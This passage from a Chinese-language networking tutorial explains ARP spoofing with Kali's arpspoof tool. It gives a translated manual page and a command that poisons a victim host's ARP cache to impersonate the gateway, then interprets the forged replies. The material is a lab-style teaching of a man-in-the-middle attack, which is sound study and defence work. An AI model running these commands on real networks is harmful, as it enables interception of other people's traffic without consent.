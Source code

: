 **4. 利用Arpspoof进行欺骗攻击**
Kali自带的Arpspoof可以很好的进行欺骗，man arpspoof查看官网手册（网上翻译）：

```
名字 
    arpspoof # 截获交换局域网中的数据包

用法
    arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host

描述
    # arpspoof通过伪造的ARP响应包改变局域网中从目标主机（或所有主机）到另一个主机（host）的数据包转发路径。这是交换局域网中嗅探网络流量的一种极为有效的方法。内核IP转发（或如fragrouter这样的、用户层面的、能完成同样功能的软件）必须提前开启。

参数
    -i interface
        # 指定要使用的接口（即指定一块网卡）

    -c own|host|both
        # 指定在恢复ARP配置时使用的硬件地址；当在清理（cleaning up）时，数据包的源地址可以用自己的也可以用主机（host）的硬件地址。使用伪造的硬件地址可能导致某些配置下的交换网络、AP网络或桥接网络通信中断，然而它比起默认值————使用自己的硬件地址要工作地更为可靠。

    -t target
        # 指定一个特殊的、将被ARP毒化的主机（如果没有指定，则认为是局域网中所有主机）。重复可以指定多个主机。

    -r  
        # 毒化两个主机（目标和主机（host））以捕获两个方向的网络流量。（仅仅在和-t参数一起使用时有效）

    host   #你想要截获数据包的主机 (通常是网关)。
```

**5. 主机A作为网关主机欺骗**
命令语句

```
arpspoof -i eth0 -t 192.168.11.105 192.168.1.1
```

[![img](浅谈Arp攻击和利用Arp欺骗进行MITM.assets/t01364b901401aae698.jpg)](https://p3.ssl.qhimg.com/t01364b901401aae698.jpg)
执行命令，Kali会向主机B发送ARP响应包，响应包的内容是Kali的ip-mac地址，而响应包里的ip则是网关主机ip地址。每一行代表一个响应包。从左到右：自己Kali的mac、主机B的mac、帧类型码(0806，代表ARP包)、包大小、包内容。
